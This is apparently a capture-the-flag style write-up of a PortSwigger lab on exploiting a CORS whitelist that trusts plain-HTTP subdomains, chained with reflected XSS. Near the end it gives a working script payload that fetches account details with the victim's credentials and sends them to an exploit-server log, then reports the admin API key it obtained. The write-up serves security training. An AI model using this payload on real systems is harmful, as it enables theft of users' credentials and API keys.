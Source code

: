 ## Lab Description :

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/13e28fd5-371c-43fa-b493-9d66299127e3)

## Solution :

## Solution:

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```
The application responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

The victim user makes any plain HTTP request.

The attacker injects a redirection to:
```
http://trusted-subdomain.vulnerable-website.com
```
The victim's browser follows the redirect.

The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:
```
https://vulnerable-website.com
```
The victim's browser makes the CORS request, including the origin:
```
http://trusted-subdomain.vulnerable-website.com
```
The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.

The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.


When we give Origin: evil.com or Origin: null , we don't see any ACAO header in the response.

But when we give Origin : "http://subdomain.lab-domain.com" we get the Access-Control-Allow-Origin in the response. [Note that we gave http instead of https]


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c83de926-c940-427b-a9d6-43fa59c0d805)

So if we provide subdoamin of the website along with http insecure protocol, we are able to bypass the whitelist.

Finding an XSS -
In real life cases, if an attacker performs a MITM attack , then he can exploit the CORS configuration to compromise the victim's interaction with the application. But in this lab we can't perform MITM attacks.

So the other way around to steal Administrator's API keys is by exploiting an XSS vulnearbility.

When we click on checkstock, we are taken to a new tab to display the result.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c4dc0507-4412-4c97-bbac-cc5284ba6683)

If we enter a simple alert() script in productID parameter, we get a pop up which confirms that it is vulnerable to XSS.


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cc462070-4b33-458d-8f30-196541d532c9)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e85d3437-769f-4142-9dd2-855934f1a4bf)

Go to exploit server and enter the following XSS payload to steal the API key of admin.

  <script>
    document.location="https://0a8100be041b0d2381968e530034004d.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

Deliver the exploit to victim & view AccessLog , there we will find the API key of admin in the URL portion.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/5dbee81a-c953-46df-8960-475b81190ebb)


API key = `5swWMELBclKsbTkYY0cZQ8qPyvLDFjR6`

Go and submit solution.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/d58caaed-7b05-4dc2-804b-a6390ccf145a)


![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/7161751f-7b99-431d-b0b7-739ba7cd909f)
